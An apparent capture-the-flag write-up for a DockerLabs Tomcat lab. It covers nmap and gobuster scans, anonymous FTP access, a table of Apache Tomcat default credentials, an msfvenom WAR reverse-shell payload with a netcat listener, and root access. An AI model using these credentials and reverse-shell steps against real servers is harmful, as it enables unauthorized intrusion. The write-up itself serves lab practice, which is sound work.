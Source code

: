 #-Pn DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

We performed a scan with nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 00:13 CEST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 00:13 (0:00:06 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 100.00% done; ETC: 00:13 (0:00:00 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 95.79% done; ETC: 00:13 (0:00:00 remaining)
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 00:13 (0:00:00 remaining)
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
|_http-favicon: Apache Tomcat
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.43 seconds
```

We see that we can access the ftp server without a password.
We log in and find a ‘.txt’ file:

```shell
└─$ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

```shell
ftp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||11583|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |*|    74        1.10 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (169.24 KiB/s)
```


```shell
└─$ cat tomcat.txt 
Hello tomcat, can you configure the tomcat server? I lost the password...

```

Well... nothing interesting to go on, before entering the website we will do a subdomain scan with gobuster:

```shell
└─$ gobuster dir -u "http://172.17.0.2:8080/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 841]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 841]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 841]
/http%3A%2F%2Fblog    (Status: 400) [Size: 841]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 841]
/External%5CX-News    (Status: 400) [Size: 795]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 841]
/http%3A%2F%2Fradar   (Status: 400) [Size: 841]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 841]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 841]
/http%3A%2F%2Fswik    (Status: 400) [Size: 841]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Nothing interesting either... Let's try to enter the web page...
Entering in ‘http://172.17.0.2:8080/’ we find a page of Apache Tomcat version 9.0.88.
If we look closely we can find a login panel:


![Captura de pantalla 2024-05-15 005242](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/45b0b2bf-4bd1-4a4f-988c-6191a990fc90)
![Captura de pantalla 2024-05-15 010522](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/dafa213a-5a85-4fb5-920a-e7e2e5426951)

# Apache Tomcat Default Credentials

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

We enter and find a section where we can upload ‘.war’ files.
Go to ‘https://revshells.com/’ and look for the .war file option with msfvenom:

```shell
msfvenom -p java/shell_reverse_tcp LHOST=127.17.0.2 LPORT=9001 -f war -o shell.war
```

![Captura de pantalla 2024-05-15 005818](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/8ac19833-b7f8-4ef5-bf61-4fbb78176212)

We open a listening port with netcat:

```shell
nc -lvnp 9001
```

We brought it up and called it in:

![Captura de pantalla 2024-05-15 010324](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/a2b89848-d5b9-4110-b001-cf057ac5a903)
![Captura de pantalla 2024-05-15 010345](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/13592867-97e0-44cb-b8f1-11548b626743)


And now we have control and full permissions:

```shell
#whoami
root
```
